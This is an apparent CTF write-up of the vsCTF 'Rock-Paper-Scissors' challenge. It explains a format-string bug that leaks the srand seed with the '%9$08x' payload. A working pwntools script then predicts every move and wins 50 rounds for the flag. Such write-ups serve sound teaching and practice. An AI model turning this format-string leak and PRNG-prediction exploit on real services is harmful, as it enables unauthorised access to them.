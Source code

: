 ```yaml
---
author: micronoyau
layout: post
title: "Rock-Paper-Scissors"
date: 2023-09-25 12:00:00 +0200
excerpt_separator: <!--more-->
---
```


In this challenge, we are given a rock-paper-scissors binary and must win 50 times in a row to get the flag.

## Disassembly and analysis

First, let's analyze this game with ghidra. The main function consists at its core of the following :

```
fd = open("/dev/urandom",0);
if (fd < 0) {
  printf("Opening /dev/urandom failed");
  exit(1);
}
read(fd,&seed,4);
close(fd);
srand(seed);
printf("Enter your name: ");
fgets(name,0x14,stdin);
printf("Hi ");
printf(name);
puts("Let\'s play some Rock Paper Scissors!");
puts("If you beat me 50 times in a row I\'ll give you a special prize.");
for (i = 0; i < 0x32; i = i + 1) {
  res = rps();
  if (res != '\x01') {
    puts("You didn\'t beat me enough times. Too bad!");
    exit(1);
  }
}
win();
```

The vulnerability is immediatly identified as a format string. We could try to rewrite the return address of rps to redirect to win, but a quick checksec shows us its not going to be easy because this binary is position-independent :
```
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```
Moreover, the buffer for `name` is only 20 bytes long so we need to find an efficient payload. Lets look at the `rps` function :
```
undefined8 rps(void)
{
  int r;
  undefined8 uVar1;
  long in_FS_OFFSET;
  char user_choice;
  char rand_choice;
  int local_18;
  undefined2 rp;
  undefined s;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  user_choice = '\0';
  rp = 0x7072;
  s = 0x73;
  r = rand();
  rand_choice = *(char *)((long)&rp + (long)(r % 3));
  puts("Let\'s play!");
  do {
    if (((user_choice == 'r') || (user_choice == 'p')) || (user_choice == 's')) {
      if ((((user_choice == 'r') && (rand_choice == 's')) ||
          ((user_choice == 'p' && (rand_choice == 'r')))) ||
         ((user_choice == 's' && (rand_choice == 'p')))) {
        puts("You win!");
        uVar1 = 1;
      }
      else {
        puts("You lost.");
        uVar1 = 0;
      }
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return uVar1;
    }
    printf("Enter your choice (r/p/s): ");
    __isoc99_scanf(&DAT_0010203b,&user_choice);
    do {
      local_18 = getchar();
      if (local_18 == 10) break;
    } while (local_18 != -1);
  } while( true );
}
```

The interesting part is the random choice selection : basically, we could rewrite it
```
rps = "rps";
r = rand();
rand_choice = rps[r%3];
```

## Pseudorandom number generators

In C, the `rand` function produces pseudo-random outputs from a chosen value called seed. The pseudorandom generator is initialized by calling the function `srand` at the beginning of function `main`, and the seed is chosen by reading `/dev/urandom` which produces pseudorandom numbers on linux devices. If we could somehow know the seed, we could then predict the entire rock-paper-scissors sequence. Let's use the format string vulnerability for this !

## Exploiting the format string bug

We find that the seed can be accessed as the 9th word on the stack when calling `printf(name)`. We then automate the winning process using pwntools et voilà !

```
from ctypes import CDLL
from pwn import *

conn = remote('vsc.tf', 3094)

print(conn.recvuntil(b": "))
conn.sendline(b'%9$08x')
seed = int(str(conn.recvline()[3:-1])[2:-1], base=16)

print(conn.recvline())
print(conn.recvline())

libc = CDLL("libc.so.6")
libc.srand(seed)

choices = "rps"

for i in range(50):
    print(conn.recvline())
    print(conn.recvuntil(b': '))
    r = choices[libc.rand()%3]
    if r == 'r':
        conn.sendline(b'p')
    elif r == 'p':
        conn.sendline(b's')
    else:
        conn.sendline(b'r')
    print(conn.recvline())

print(conn.recv())
```

The result is
```
[micronoyau@pwnixos:~/Documents/vsctf/RPS]$ python res.py 
[+] Opening connection to vsc.tf on port 3094: Done
b'Enter your name: '
b"Let's play some Rock Paper Scissors!\n"
b"If you beat me 50 times in a row I'll give you a special prize.\n"
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
[...]
b"Let's play!\n"
b'Enter your choice (r/p/s): '
b'You win!\n'
b'vsctf{Wh4t_da_h3ck_br0_gu355_g0d_kn0ws_4ll_my_m0v3s_:(((}\n\n'
[*] Closed connection to vsc.tf port 3094
```
Got the flag :)
